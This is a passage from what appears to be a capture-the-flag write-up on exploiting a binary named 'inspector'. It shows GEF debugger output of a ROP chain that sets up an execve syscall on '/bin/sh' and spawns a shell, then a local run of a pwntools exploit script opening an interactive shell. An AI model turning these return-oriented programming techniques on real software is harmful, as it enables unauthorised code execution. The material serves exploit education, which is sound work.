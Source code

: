 ```
$rcx   : 0x00007ffff7f9eaa0  →  0x00000000fbad2088
$rdx   : 0x0               
$rsp   : 0x00007fffffffde10  →  0x00000000004004a9  →  <_init+25> ret 
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x0               
$rdi   : 0x0000000000400708  →  0x0068732f6e69622f ("/bin/sh"?)
$rip   : 0x0000000000400625  →  <gadget_1+4> syscall 
$r8    : 0x0000000000602319  →  0x0000000000000000

stack ────
0x00007fffffffde10│+0x0000: 0x00000000004004a9  →  <_init+25> ret      ← $rsp
0x00007fffffffde18│+0x0008: 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000
0x00007fffffffde20│+0x0010: 0xd5866103fe1c13b9
0x00007fffffffde28│+0x0018: 0xd586714208b813b9

code:x86:64 ────
     0x400620 <init+35>        ret    
     0x400621 <gadget_1+0>     push   rbp
     0x400622 <gadget_1+1>     mov    rbp, rsp
 →   0x400625 <gadget_1+4>     syscall 
     0x400627 <gadget_1+6>     ret    
     0x400628 <gadget_1+7>     pop    rbp
     0x400629 <gadget_1+8>     ret    
     0x40062a <gadget_2+0>     push   rbp
     0x40062b <gadget_2+1>     mov    rbp, rsp
```
OUR SYSCALL IS NEXT
All of our registers have their data
LET'S GOOOOO

.....did this ACTUALLY WORK?!?!?!?!?!?
```
gef➤  $ c
Continuing.
process 178693 is executing new program: /usr/bin/dash
```

# Local Exploitation?
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ python3 Inspector_Pwn.py
[+] Starting local process './inspector': pid 186651
/home/kali/Desktop/6-Week/Inspector_Pwn.py:86: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("shell!")
[*] Switching to interactive mode

$ whoami
kali
$ pwd
/home/kali/Desktop/6-Week
```
